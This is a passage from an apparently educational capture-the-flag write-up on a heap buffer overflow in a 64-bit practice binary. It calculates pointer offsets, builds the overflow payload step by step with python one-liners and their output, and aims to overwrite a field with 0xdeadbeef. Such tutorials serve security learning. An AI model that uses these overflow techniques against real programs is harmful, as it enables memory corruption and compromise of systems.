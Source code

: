 So now that we have the mapping, it makes pur job so much easier. Now to construct the payload, however we will do it in parts. the first part involves overflowing the pointer stored at 0x602050. Let's figure out the offset.

```
>>> 0x602050 - 0x602030
32
```

So the first 8 characters we write after the first 32 characters, will be interpreted as the pointer. Let's try to input 33 characters just to see if that holds true (it just break). 

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h2_64$ python -c 'print "0"*33' | ./h2_64 
Segmentation fault (core dumped)
```

Just as expected. Now let's right 32 characters, followed by the address that is supposed to be there, 0x602070. This way it shouldn't break. In order for the fromatting to properley happen, we will need to add the zeroes that 64 bit addresses have to fill up the space.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h2_64$ python -c 'print "0"*32 + "\x70\x20\x60\x00\x00\x00\x00\x00"' | ./h2_64 
Alpha Centari is 4.367 light years away.
The center of the milky way galaxy is far far away.
The asteroid is 10 parsecs away.
Imagine how long it will be, untill a researcher that is working hard is living on Mars. You wouldn't know since your not researching.
```

So that is the first pointer we have to worry about. The second is in the first eight bytes of 0x602090. Since we are eight bytes past 0x602050 already, let's figure out the offset.

```
>>> 0x602090 - 0x602050
64
>>> 64 - 8
56
```

So 56 characters past our current location, we should need to write the address 0x00000000006020b0 (or another functioning address) in order for the program to properly function. Let's try it.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h2_64$ python -c 'print "0"*32 + "\x70\x20\x60\x00\x00\x00\x00\x00" + "0"*56 + "\xb0\x20\x60\x00\x00\x00\x00\x00"' | ./h2_64 
Alpha Centari is 00000000000000000000000000000000� ` light years away.
The center of the milky way galaxy is far far away.
The asteroid is 10 parsecs away.
Imagine how long it will be, untill a researcher that is working hard is living on Mars. You wouldn't know since your not researching.
```

It worked, we managed to not disturb the pointers with our oveflow. Now with our exploit, we are right where the value that is being evaluated yellow->asteroid is being stored. So we should just be able to overwrite it with the hex string 0xdeadbeef. We don't need to add the extra zeroes, because we alread saw earlier that the values they are zero (rememebr this program uses little endian). And unlike the other two pointers were dealing with, here we can just write over the last 4 bytes of the int, intsead of having to rewrite the whole pointer. And then we should pwn the challenge.
